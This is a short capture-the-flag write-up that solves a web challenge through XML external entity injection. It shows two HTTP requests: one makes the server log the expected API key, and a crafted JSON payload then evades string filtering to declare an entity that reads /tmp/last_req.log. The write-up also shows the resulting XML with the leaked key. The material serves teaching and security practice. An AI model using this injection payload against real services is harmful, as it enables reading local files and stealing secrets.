 # Objective

# Solution

First send a request with a bad apiKey to generate log file. Then read log file with second request.

The issue is how they are replacing strings in the xml file. You want to create an entity that is able to read a local file (the log file).

```
### Flag is apiKey really is H858FDSKL49FK09K4590KFK2390KCFVC12

### First send the first request
### Second send the second request

POST https://chal35-g7sg4j.vercel.app/getCRMUsers HTTP/1.1
Content-Type: application/json

{
    "apiKey": "wrong"
}

###

POST https://chal35-g7sg4j.vercel.app/createCard HTTP/1.1
Content-Type: application/json

{
  "role": "role\"> --> <ENTITY!EDOCTYPENDOCTYPETDOCTYPEIDOCTYPETDOCTYPEY role SENTITYYENTITYSENTITYTENTITYEENTITYM \"/tmp/last_req.log",
  "firstName": "fn",
  "lastName": "ln\"> <ENTITY!--"
}

###
```

The second request will generate XML that looks like this: (note the contents of the log file are injected)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
<!ENTITY firstName "fn">
<!ENTITY lastName "ln">
<!--"><!ENTITY role "role"> --><!ENTITY role SYSTEM "/tmp/last_req.log">
]>
<userInfo>
<fullRef>fn ln, Expected API Key: H858FDSKL49FK09K4590KFK2390KCFVC12 | Received API Key: wrong</fullRef>
<firstName>fn</firstName>
<lastName>ln</lastName>
</userInfo>
```
